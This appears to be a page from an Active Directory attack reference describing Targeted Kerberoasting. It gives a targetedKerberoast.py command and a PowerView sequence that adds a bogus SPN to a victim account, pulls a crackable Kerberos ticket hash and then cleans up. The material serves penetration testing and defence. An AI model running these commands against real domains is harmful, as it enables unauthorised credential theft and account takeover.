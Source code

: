 # Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [Account Operator](../domain-settings/builtin-groups.md) group usually has those permissions.

The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting.&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)

```bash
targetedKerberoast.py -v -d $DOMAIN_FQDN -u $USER -p $PASSWORD
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

Once the Kerberoast hash is obtained, it can possibly be [cracked](../credentials/cracking.md) to recover the account's password if the password used is weak enough.
